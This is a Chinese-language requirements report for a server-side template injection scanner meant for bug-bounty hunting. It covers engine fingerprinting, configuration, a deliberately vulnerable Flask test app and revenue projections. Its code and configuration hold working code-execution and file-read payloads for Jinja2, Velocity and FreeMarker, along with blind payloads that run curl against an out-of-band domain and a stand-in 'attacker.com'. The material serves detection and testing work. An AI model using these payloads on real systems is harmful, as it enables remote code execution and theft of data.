

# 🎯 服務器端模板注入檢測模組需求報告 (Server-Side Template Injection)

## 📁 模組部署位置
```
services/integration/capability/server_side_template_injection/
├── __init__.py
├── __main__.py
├── ssti_detector.py                  # 主檢測引擎
├── template_engine_identifier.py    # 模板引擎識別器
├── payload_generator.py              # 載荷生成器
├── expression_evaluator.py          # 表達式評估器
├── config/
│   ├── template_signatures.json
│   ├── payload_templates.json
│   └── engine_detection_rules.json
├── payloads/
│   ├── jinja2_payloads.json
│   ├── handlebars_payloads.json
│   ├── freemarker_payloads.json
│   └── generic_payloads.json
└── tests/
    ├── test_ssti_detector.py
    ├── test_template_identifier.py
    └── test_integration.py
```

## 🔗 相關模組連結
- [命令注入檢測](./11_命令注入檢測模組需求報告.md) - 共享載荷注入技術
- [目錄遍歷攻擊檢測](./13_目錄遍歷攻擊檢測模組需求報告.md) - 共享文件系統訪問檢測
- [本地遠程文件包含檢測](./14_本地遠程文件包含檢測模組需求報告.md) - 共享代碼執行檢測
- [XXE注入檢測](./15_XXE注入檢測模組需求報告.md) - 共享載荷響應分析
- [NoSQL注入檢測](./16_NoSQL注入檢測模組需求報告.md) - 共享注入檢測框架

**報告編號**: FEAT-012  
**日期**: 2025年11月7日  
**狀態**: 🔥 高價值目標 - 技術挑戰型  
**優先級**: P0 (Critical)  
**預期收益**: $60K-100K/年  
**OWASP 編號**: WSTG-07-18

---

## 📊 市場需求分析

### 💰 賞金價值評估
- **典型賞金範圍**: $1,000-$8,000
- **發現頻率**: 中等 (15-25%的現代Web應用存在風險)
- **檢測成功率**: 75-85% (需要高級技術)
- **年收益預測**: $60K-100K

### 🎯 目標技術棧
- **Python**: Jinja2, Django Templates (40%市場佔有率)
- **JavaScript**: Handlebars, Mustache, Pug (25%市場佔有率)
- **Java**: Velocity, Freemarker, Thymeleaf (20%市場佔有率)
- **PHP**: Twig, Smarty (10%市場佔有率)
- **其他**: Ruby ERB, Go Templates (5%市場佔有率)

---

## 🔍 技術需求規格

### **模組標識**
```
服務路徑: services/integration/capability/server_side_template_injection/
模組名稱: Server-Side Template Injection Detection Engine
責任團隊: Advanced Security Research Team
實現語言: Python (主引擎) + Go (性能組件)
複雜度級別: High (需要深度技術專長)
```

### **核心檢測能力**

#### 1️⃣ **模板引擎識別**
```python
class TemplateEngineFingerprinter:
    """模板引擎指紋識別器"""
    
    def __init__(self):
        self.engine_signatures = {
            'jinja2': {
                'error_patterns': [
                    r'jinja2\.exceptions\.',
                    r'TemplateSyntaxError',
                    r'UndefinedError'
                ],
                'syntax_markers': ['{{', '}}', ''],
                'test_expressions': ['{{7*7}}', '{{config}}']
            },
            'velocity': {
                'error_patterns': [
                    r'VelocityException',
                    r'org\.apache\.velocity',
                    r'ParseException'
                ],
                'syntax_markers': ['$', '#set', '#if'],
                'test_expressions': ['${7*7}', '$util.class']
            },
            'freemarker': {
                'error_patterns': [
                    r'freemarker\.template\.',
                    r'TemplateException',
                    r'InvalidReferenceException'
                ],
                'syntax_markers': ['${', '}', '<#', '#>'],
                'test_expressions': ['${7*7}', '${.vars}']
            },
            'handlebars': {
                'error_patterns': [
                    r'Handlebars\.Exception',
                    r'Error: Parse error',
                    r'Expected [a-zA-Z_]'
                ],
                'syntax_markers': ['{{', '}}', '{{{', '}}}'],
                'test_expressions': ['{{#with this}}{{.}}{{/with}}']
            }
        }
```

#### 2️⃣ **載荷生成策略**
```python
class SSTIPayloadGenerator:
    """SSTI 載荷生成器"""
    
    def generate_detection_payloads(self, engine_type):
        """生成檢測載荷"""
        payloads = {
            'jinja2': [
                # 基本數學運算
                '{{7*7}}',
                '{{7*\'7\'}}',
                '{{[].__class__.__base__.__subclasses__()}}',
                
                # 配置洩露
                '{{config}}',
                '{{config.items()}}',
                '{{request}}',
                
                # 代碼執行
                '{{lipsum.__globals__}}',
                '{{cycler.__init__.__globals__.os.popen(\'id\').read()}}',
                '{{joiner.__init__.__globals__.os.popen(\'whoami\').read()}}',
                
                # 文件讀取
                '{{get_flashed_messages.__globals__.__builtins__.open(\'/etc/passwd\').read()}}',
            ],
            
            'velocity': [
                # 基本檢測
                '${7*7}',
                '${{7*7}}',
                '#{7*7}',
                
                # 類訪問
                '$util.class',
                '$util.class.forName',
                '$class.inspect($util.class)',
                
                # 代碼執行
                '#set($x=$util.class.forName(\'java.lang.Runtime\'))',
                '#set($y=$x.getRuntime())',
                '#set($z=$y.exec(\'id\'))',
                
                # 文件操作
                '$util.class.forName(\'java.io.File\').list()',
            ],
            
            'freemarker': [
                # 基本運算
                '${7*7}',
                '${7*\'7\'}',
                
                # 內建對象
                '${.vars}',
                '${.globals}',
                '${.main_template_name}',
                
                # 代碼執行
                '<#assign ex="freemarker.template.utility.Execute"?new()>${ex("id")}',
                '<#assign objectConstructor="freemarker.template.utility.ObjectConstructor"?new()>',
                
                # API訪問
                '${product.getClass().getProtectionDomain().getCodeSource().getLocation().toURI().resolve(\'/etc/passwd\').toURL().openStream().readAllBytes()?join(\' \')}',
            ]
        }
        return payloads.get(engine_type, [])
        
    def generate_blind_payloads(self, engine_type, oob_domain):
        """生成盲注載荷"""
        blind_payloads = {
            'jinja2': [
                f'{{{{lipsum.__globals__.os.system(\'curl {oob_domain}\')}}}}',
                f'{{{{cycler.__init__.__globals__.os.popen(\'ping -c 4 {oob_domain}\').read()}}}}',
            ],
            'velocity': [
                f'#set($x=$util.class.forName(\'java.lang.Runtime\').getRuntime().exec(\'curl {oob_domain}\'))',
                f'$util.class.forName(\'java.net.URL\').new(\'{oob_domain}\').openConnection().connect()',
            ]
        }
        return blind_payloads.get(engine_type, [])
```

#### 3️⃣ **高級檢測技術**

**A. 上下文感知檢測**
```python
class ContextAwareDetector:
    """上下文感知檢測器"""
    
    def detect_injection_context(self, response_body, payload, expected_output):
        """檢測注入上下文"""
        
        # HTML上下文檢測
        if self.is_html_context(response_body):
            return self.analyze_html_injection(response_body, payload, expected_output)
        
        # JSON上下文檢測  
        if self.is_json_context(response_body):
            return self.analyze_json_injection(response_body, payload, expected_output)
            
        # 純文本上下文
        return self.analyze_text_injection(response_body, payload, expected_output)
    
    def analyze_html_injection(self, html, payload, expected):
        """分析HTML中的模板注入"""
        from bs4 import BeautifulSoup
        
        soup = BeautifulSoup(html, 'html.parser')
        text_content = soup.get_text()
        
        # 檢查預期輸出
        if str(expected) in text_content:
            return {
                'detected': True,
                'confidence': 0.9,
                'context': 'html',
                'evidence': f'Expected output "{expected}" found in HTML content'
            }
        
        # 檢查錯誤洩露
        error_indicators = ['Error', 'Exception', 'Template', 'Syntax']
        for indicator in error_indicators:
            if indicator in html and payload in html:
                return {
                    'detected': True,
                    'confidence': 0.7,
                    'context': 'html_error',
                    'evidence': f'Template error exposed: {indicator}'
                }
                
        return {'detected': False}
```

**B. 盲注檢測引擎**
```python
class BlindSSTIDetector:
    """盲注SSTI檢測器"""
    
    def __init__(self, oob_server):
        self.oob_server = oob_server
        self.time_based_threshold = 5.0
        
    def detect_time_based(self, target_url, engine_type):
        """時間盲注檢測"""
        
        time_payloads = {
            'jinja2': [
                '{{lipsum.__globals__.time.sleep(5)}}',
                '{{cycler.__init__.__globals__.time.sleep(5)}}',
            ],
            'velocity': [
                '#set($x=$util.class.forName(\'java.lang.Thread\').sleep(5000))',
            ],
            'freemarker': [
                '<#assign ex="freemarker.template.utility.Execute"?new()>${ex("sleep 5")}',
            ]
        }
        
        payloads = time_payloads.get(engine_type, [])
        
        for payload in payloads:
            start_time = time.time()
            try:
                response = self.send_payload(target_url, payload)
                response_time = time.time() - start_time
                
                if response_time >= self.time_based_threshold:
                    return {
                        'detected': True,
                        'method': 'time_based',
                        'confidence': 0.8,
                        'response_time': response_time,
                        'payload': payload
                    }
            except Exception as e:
                continue
                
        return {'detected': False}
    
    def detect_oob_interaction(self, target_url, engine_type):
        """帶外通道檢測"""
        
        interaction_id = f"ssti-{uuid.uuid4().hex[:8]}"
        oob_domain = f"{interaction_id}.{self.oob_server}"
        
        oob_payloads = self.generate_oob_payloads(engine_type, oob_domain)
        
        for payload in oob_payloads:
            # 發送載荷
            self.send_payload(target_url, payload)
            
            # 等待交互
            time.sleep(10)
            
            # 檢查交互記錄
            if self.check_oob_interaction(interaction_id):
                return {
                    'detected': True,
                    'method': 'oob',
                    'confidence': 0.95,
                    'interaction_id': interaction_id,
                    'payload': payload
                }
                
        return {'detected': False}
```

---

## 🏗️ 架構設計

### **模組結構**
```
services/integration/capability/server_side_template_injection/
├── cmd/
│   └── main.go                    # Go服務入口
├── internal/
│   ├── detector/
│   │   ├── fingerprinter.py       # 模板引擎識別
│   │   ├── payload_generator.py   # 載荷生成
│   │   ├── context_analyzer.py    # 上下文分析
│   │   ├── blind_detector.py      # 盲注檢測
│   │   └── result_validator.py    # 結果驗證
│   ├── engine/
│   │   ├── scanner.py             # 主掃描引擎
│   │   ├── http_client.py         # HTTP客戶端
│   │   └── reporter.py            # 報告生成器
│   └── worker/
│       ├── amqp_consumer.go       # 消息消費者
│       └── task_processor.go      # 任務處理器
├── config/
│   ├── engines/
│   │   ├── jinja2.yaml           # Jinja2配置
│   │   ├── velocity.yaml         # Velocity配置
│   │   ├── freemarker.yaml       # FreeMarker配置
│   │   └── handlebars.yaml       # Handlebars配置
│   ├── payloads/
│   │   ├── detection.yaml        # 檢測載荷
│   │   ├── exploitation.yaml     # 利用載荷
│   │   └── blind.yaml            # 盲注載荷
│   └── rules.yaml                # 檢測規則
├── templates/
│   └── test_cases/               # 測試用例模板
└── tests/
    ├── unit/
    ├── integration/
    └── vulnerable_apps/          # 測試應用
```

### **檢測工作流**


---

## ⚙️ 配置文件規格

### **主配置文件**
```yaml
# config/rules.yaml
ssti_detection:
  enabled: true
  max_payloads_per_engine: 10
  request_timeout: 30
  max_redirects: 5
  
  engines:
    jinja2:
      priority: high
      common_frameworks: ["Flask", "Django"]
      detection_confidence: 0.9
      
    velocity:
      priority: high  
      common_frameworks: ["Spring", "Struts"]
      detection_confidence: 0.85
      
    freemarker:
      priority: medium
      common_frameworks: ["Spring Boot"]
      detection_confidence: 0.8
      
  blind_detection:
    time_based:
      enabled: true
      sleep_duration: 5
      threshold_multiplier: 1.5
      
    oob_detection:
      enabled: true
      collaborator_server: "ssti.aiva-security.com"
      interaction_timeout: 30
      polling_interval: 5
```

### **Jinja2 引擎配置**
```yaml
# config/engines/jinja2.yaml
engine_name: "jinja2"
description: "Python Jinja2 Template Engine"

fingerprinting:
  error_signatures:
    - "jinja2.exceptions.TemplateSyntaxError"
    - "jinja2.exceptions.UndefinedError"
    - "jinja2.exceptions.TemplateRuntimeError"
  
  syntax_patterns:
    - "{{ }}"
    - ""
    - "{# #}"

detection_payloads:
  basic_math:
    - payload: "{{7*7}}"
      expected: "49"
      confidence: 0.9
      
    - payload: "{{7*'7'}}"
      expected: "7777777"
      confidence: 0.95

  object_access:
    - payload: "{{config}}"
      indicators: ["<Config", "SECRET_KEY"]
      confidence: 0.8
      
    - payload: "{{request}}"
      indicators: ["<Request", "environ"]
      confidence: 0.8

exploitation_payloads:
  code_execution:
    - "{{lipsum.__globals__.os.popen('id').read()}}"
    - "{{cycler.__init__.__globals__.os.popen('whoami').read()}}"
    - "{{joiner.__init__.__globals__.os.system('curl attacker.com')}}"
    
  file_read:
    - "{{get_flashed_messages.__globals__.__builtins__.open('/etc/passwd').read()}}"
    - "{{url_for.__globals__.os.popen('cat /etc/hosts').read()}}"
```

---

## 🧪 測試策略

### **漏洞應用搭建**
```python
# tests/vulnerable_apps/flask_ssti.py
from flask import Flask, request, render_template_string

app = Flask(__name__)

@app.route('/vuln1')
def vuln1():
    # 直接模板注入
    template = request.args.get('template', 'Hello World')
    return render_template_string(template)

@app.route('/vuln2')  
def vuln2():
    # 上下文注入
    name = request.args.get('name', 'Guest')
    template = f"Hello {name}!"
    return render_template_string(template)

@app.route('/vuln3')
def vuln3():
    # JSON響應中的注入
    data = request.args.get('data', '{}')
    template = f'{{"result": "{data}"}}'
    return render_template_string(template)

if __name__ == '__main__':
    app.run(debug=True, port=8080)
```

### **自動化測試**
```python
class TestSSTIDetection:
    def setup_method(self):
        self.detector = SSTIDetector()
        self.test_server = "http://localhost:8080"
        
    def test_jinja2_basic_detection(self):
        """測試基本Jinja2檢測"""
        target = f"{self.test_server}/vuln1?template={{{{7*7}}}}"
        
        result = self.detector.scan(target)
        
        assert result.detected == True
        assert result.engine_type == "jinja2"
        assert result.confidence >= 0.9
        assert "49" in result.evidence
        
    def test_context_aware_detection(self):
        """測試上下文感知檢測"""
        target = f"{self.test_server}/vuln2?name={{{{config}}}}"
        
        result = self.detector.scan(target)
        
        assert result.detected == True
        assert result.context == "html"
        assert "config" in result.evidence.lower()
        
    def test_blind_time_based(self):
        """測試時間盲注"""
        target = f"{self.test_server}/blind?input={{{{lipsum.__globals__.time.sleep(5)}}}}"
        
        start_time = time.time()
        result = self.detector.scan_blind(target)
        duration = time.time() - start_time
        
        assert result.detected == True
        assert result.method == "time_based"
        assert duration >= 5.0
```

---

## 📈 性能要求

### **檢測性能**
- **引擎識別時間**: < 10秒/目標
- **載荷測試時間**: < 60秒/目標  
- **盲注檢測時間**: < 120秒/目標
- **內存使用**: < 512MB/實例

### **準確率要求**
- **總體檢測率**: > 75%
- **誤報率**: < 8%
- **Jinja2檢測率**: > 90%
- **Velocity檢測率**: > 85%
- **FreeMarker檢測率**: > 80%

---

## 🚀 實施計劃

### **Phase 1: 核心框架 (3週)**
- [ ] 模板引擎指紋識別系統
- [ ] 基礎載荷生成器
- [ ] HTTP客戶端和請求管理
- [ ] Jinja2檢測引擎

### **Phase 2: 引擎支持 (3週)**
- [ ] Velocity檢測引擎
- [ ] FreeMarker檢測引擎  
- [ ] Handlebars檢測引擎
- [ ] 上下文感知分析器

### **Phase 3: 高級檢測 (2週)**
- [ ] 時間盲注檢測
- [ ] OOB檢測系統
- [ ] 結果驗證和去重
- [ ] 性能優化

### **Phase 4: 測試部署 (2週)**
- [ ] 全面測試套件
- [ ] 漏洞應用搭建
- [ ] Docker容器化
- [ ] 生產環境部署

**總開發周期**: 10週  
**預計上線時間**: 2026年1月16日

---

## 💼 商業價值

### **收益分析**
- **年度賞金收入**: $60K-100K
- **平均單個漏洞價值**: $2,500
- **預期發現數量**: 25-40個/年
- **投資回報周期**: 15個月

### **競爭優勢**
- **技術壁壘**: 高 (需要深度模板引擎知識)
- **市場稀缺性**: 少數工具支持全面SSTI檢測
- **客戶粘性**: 極高 (技術門檻)

---

## 📋 風險評估

### **技術風險**
- **複雜度高**: 需要多種模板引擎深度理解
- **誤報風險**: 模板語法複雜容易產生誤報
- **維護成本**: 模板引擎更新需要同步維護

### **緩解策略**
- **階段性實施**: 優先實現主流引擎
- **廣泛測試**: 建立完整測試環境
- **專家顧問**: 聘請模板引擎專家
- **社區合作**: 與開源項目合作維護

---

## 🎯 結論

SSTI檢測模組是高技術含量、高收益回報的戰略性項目。雖然實現複雜度較高，但其稀缺性和高價值賞金使其成為AIVA平台差異化競爭的關鍵能力。

**建議作為第二優先級項目**，在命令注入模組完成後立即啟動開發。